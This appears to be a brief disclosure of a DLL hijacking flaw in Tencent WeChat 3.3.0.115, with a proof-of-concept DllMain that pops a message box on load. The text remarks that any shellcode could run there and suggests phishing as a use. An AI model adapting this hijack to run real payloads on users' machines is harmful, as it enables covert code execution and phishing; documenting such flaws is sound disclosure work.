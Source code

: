 #DLL hijacking found in Tencent wechat, version 3.3.0.115

#demonstration

For example:
`
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		DisableThreadLibraryCalls(hModule);
		MessageBox(NULL, (LPCTSTR)TEXT("1"), (LPCTSTR)TEXT("1"), MB_OK);
	}
	else if (dwReason == DLL_PROCESS_DETACH)
	{

	}
	return TRUE;
}
`
#You can define any code and shellcode to execute in the DLL's entry function!!

#Very simple, we can be used for rights protection or phishing!!!
